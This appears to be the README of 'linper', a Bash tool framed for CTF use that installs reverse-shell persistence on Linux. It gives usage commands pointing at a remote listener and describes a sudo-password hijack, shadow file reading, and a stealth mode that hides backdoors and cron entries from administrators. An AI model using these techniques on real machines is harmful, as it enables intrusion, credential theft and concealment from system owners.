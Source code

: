 # linper

Automated Linux Persistence Establishment

Automatically install multiple methods of persistence, or just enumerate possible methods.

## advisory

This was developed with CTFs in mind and that is its intended use case. The stealth-mode option is for King of the Hill style competitions where others might try and tamper with your persistence. Please do not use this tool in an unethical or illegal manner.

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

Enumerate all persistence methods and install

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

Enumerate and do not install

`bash linper.sh -d`

Enumerate all persistence methods and install (stealth mode)

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

## methodology

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is set

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

## stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bash_aliases to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells.

### known limitation

1. If you run `--stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bash_aliases because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)